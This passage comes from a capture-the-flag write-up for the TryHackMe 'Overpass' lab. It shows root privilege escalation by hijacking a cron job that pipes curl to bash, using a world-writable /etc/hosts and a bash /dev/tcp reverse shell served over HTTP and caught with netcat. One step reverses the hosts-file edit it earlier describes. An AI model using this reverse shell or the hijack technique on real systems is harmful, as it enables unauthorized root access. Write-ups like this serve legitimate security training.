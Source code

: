```console
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
There is no *PATH Environment Variable* or *Wildcards* to exploit here (wanna know more about it, [read](LinuxPrivEsc/README.md)). But check the last line of the crontab, each 1 min the corn job will run `curl overpass.thm/downloads/src/buildscript.sh` and pass it to `bash`. I have a plan but for it to works, I have to check `/etc/hosts` if we have write permission.

```console
James@overpass-prod:~$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 252 Jul 20 18:21 /etc/hosts
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
Bing GO !! the plan is change the `127.0.0.1 overpass.thm` to `<ur ip> overpass.thm` then we can create a *fake* web site using python. Out website will be hosting a `buildscript.sh` which is our reverse shell
```console
bibo318@parrot:~/THM/Overpass/downloads/src$ ls
buildscript.sh
bibo318@parrot:~/THM/Overpass/downloads/src$ cat buildscript.sh # our reverse shell
bash -i >& /dev/tcp/<ip>/<port> 0>&1
bibo318@parrot:~/THM/Overpass/downloads/src$ cd ../../
bibo318@parrot:~/THM/Overpass$ sudo python -m SimpleHTTPServer 80
```
To make this works, it is **important** that the python server have to run in the "web root" directory, for my case `Overpass` is my root. It need to have same stucture as the request in `corntab`. Dont forget open new terminal tab and netcet listen to our shell


now back to james ssh, modify `/etc/hosts` and replace `<ur ip> overpass.thm` with `127.0.0.1 overpass.thm`. let make sure if it works
```console
james@overpass-prod:~$ curl overpass.thm/downloads/src/buildscript.sh
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
yep it works, now just wait for the cornjob to do it jobs.
```console
bibo318@parrot:~$ nc -nlvp 6969
listening on [any] 6969 ...                                                                        
connect to [10.8.14.151] from (UNKNOWN) [10.10.194.249] 47680                                      
bash: cannot set terminal process group (6422): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# ls
ls
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
cat root.txt
```
well done, cya next time. GL HAPPY HACKING!